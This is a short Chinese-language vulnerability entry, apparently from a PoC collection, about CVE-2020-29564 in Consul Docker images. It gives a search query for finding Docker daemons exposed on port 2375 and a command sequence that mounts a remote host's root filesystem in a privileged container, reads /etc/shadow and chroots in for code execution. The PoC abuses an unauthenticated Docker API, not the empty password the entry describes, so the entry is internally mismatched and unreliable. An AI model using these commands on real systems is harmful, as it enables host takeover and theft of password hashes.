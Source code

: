 # Consul Docker images 空密码登录漏洞 CVE-2020-29564

## 漏洞描述

Consul Docker images 0.7.1至1.4.2版本部署的Consul Docker容器的系统，可能允许远程攻击者使用空白密码来实现root用户访问。

参考链接：

- https://github.com/koharin/CVE/blob/main/CVE-2020-29564

## 漏洞影响

```
Consul Docker images 0.7.1-1.4.2
```

## 网络测绘

```
port="2375" && protocol=="docker"
```

## 漏洞复现

poc：

```
docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

File Access: cat /mnt/etc/shadow
RCE: chroot /mnt
```

